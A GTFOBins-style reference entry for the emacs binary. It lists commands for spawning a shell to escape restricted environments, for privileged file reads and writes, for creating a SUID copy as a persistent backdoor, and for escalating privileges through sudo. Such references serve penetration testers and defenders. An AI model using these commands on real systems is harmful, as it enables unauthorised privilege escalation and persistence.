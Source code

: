 # GTFOBin: emacs

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
emacs -Q -nw --eval '(term "/bin/sh")'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
emacs file_to_write
DATA
C-x C-s
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
emacs file_to_read
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which emacs) .

./emacs -Q -nw --eval '(term "/bin/sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo emacs -Q -nw --eval '(term "/bin/sh")'
```